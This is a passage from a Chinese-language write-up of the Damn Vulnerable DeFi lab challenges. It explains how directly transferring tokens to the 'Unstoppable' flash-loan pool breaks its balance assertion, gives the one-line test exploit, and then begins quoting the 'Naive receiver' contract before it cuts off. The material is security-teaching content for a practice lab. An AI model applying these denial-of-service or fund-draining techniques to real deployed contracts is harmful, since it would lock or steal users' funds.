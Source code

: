 ```
    function flashLoan(uint256 borrowAmount) external nonReentrant `{`
        require(borrowAmount &gt; 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore &gt;= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);

        damnValuableToken.transfer(msg.sender, borrowAmount);

        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter &gt;= balanceBefore, "Flash loan hasn't been paid back");
    `}`

`}`
```

可以看到条件 `assert(poolBalance == balanceBefore);` 设计的非常奇怪，特别是 `poolBalance` 只会在 `depositTokens()` 被调用的时候增加，这意味着如果通过 ERC20 标准的 transfer 将 token 转移到 pool 上时，`balanceBefore` 会增加，因为余额增加了，但 `poolBalance` 不会增加， `poolBalance &lt; balanceBefore`，后续的 `flashLoan()` 调用会一直失败。

打开 `test/unstoppable/unstoppable.challenge.js`，在 `it('Exploit'` 处增加以下代码，将我们拥有的 token 全部转给 pool：

```
it('Exploit', async function () `{`
  await this.token.transfer(this.pool.address, INITIAL_ATTACKER_BALANCE, `{` from: attacker`}` );
`}`);
```

运行 `npm run unstoppable`，成功通过本题：

[![](https://p3.ssl.qhimg.com/t01ff28c7597c62822b.png)](https://p3.ssl.qhimg.com/t01ff28c7597c62822b.png)



## Naive receiver

> There’s a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.
You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.
Drain all ETH funds from the user’s contract. Doing it in a single transaction is a big plus 😉

本题要求我们清空用户合约中的全部余额，阅读 `NaiveReceiverLenderPool` 的源代码：

```
contract NaiveReceiverLenderPool is ReentrancyGuard `{`
    using SafeMath for uint256;
    using Address for address;

    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan

    function fixedFee() external pure returns (uint256) `{`
        return FIXED_FEE;
    `}`

    function flashLoan(address payable borrower, uint256 borrowAmount) external nonReentrant `{`

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore &gt;= borrowAmount, "Not enough ETH in pool");


        require(address(borrower).isContract(), "Borrower must be a deployed contract");
```
